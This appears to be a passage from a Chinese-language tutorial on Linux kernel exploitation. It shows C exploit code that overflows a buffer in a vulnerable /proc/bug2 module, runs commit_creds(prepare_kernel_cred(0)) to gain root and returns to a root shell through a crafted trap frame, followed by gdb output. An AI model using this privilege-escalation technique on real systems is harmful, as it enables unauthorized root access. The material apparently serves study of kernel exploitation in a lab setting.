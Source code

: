 ```c
struct trap_frame tf;

void launch_shell(){
    execl("/bin/sh","sh",NULL);
}

void prepare_tf(){
    asm("pushl %cs;"
        "popl tf+4;" //set cs
        "pushfl;"
        "popl tf+8;" //set eflags;
        "pushl %esp;"
        "popl tf+12;" //set esp;
        "pushl %ss;"
        "popl tf+16;"); //set ss;
    tf.eip = &launch_shell;
    tf.esp -= 1024;
}

#define KERNCALL __attribute__((regparm(3)))
void (*commit_creds)(void *) KERNCALL = (void*)0xc1069560;
void *(*prepare_kernel_cred)(void *) KERNCALL = (void *)0xc1069700;

void payload(void){
    commit_creds(prepare_kernel_cred(0));
    asm("mov $tf,%esp;"
        "iret;"
        );
}

int main(){
    char buf[24]={0};
    memset(buf,'A',20);
    *(void **)(buf+20) = &payload;
    prepare_tf();

    int fd=open("/proc/bug2",O_WRONLY);
    write(fd,buf,sizeof(buf));
}
```

设置好 gdb，断到 `bug2_write` 处：

![exploit2_bug2_write]({{site.baseurl}}/images/exploit2_bug2_write.png)

继续断到 `ret` 指令处查看一下：

```bash
gdb-peda$ x/4xw $esp
0xc78cbf28:	0x08048f3e	0x00000000	0x00000018	0xbfdbb094
gdb-peda$ x/20i 0x08048f3e
   0x8048f3e:	push   ebp
   0x8048f3f:	mov    ebp,esp
   0x8048f41:	push   ebx
   0x8048f42:	sub    esp,0x4
   0x8048f45:	mov    ebx,DWORD PTR ds:0x80ef068
   0x8048f4b:	mov    edx,DWORD PTR ds:0x80ef06c
   0x8048f51:	mov    eax,0x0
   0x8048f56:	call   edx
   0x8048f58:	call   ebx
   0x8048f5a:	mov    esp,0x80f112c
   0x8048f5f:	iret   
   0x8048f60:	add    esp,0x4
   0x8048f63:	pop    ebx
```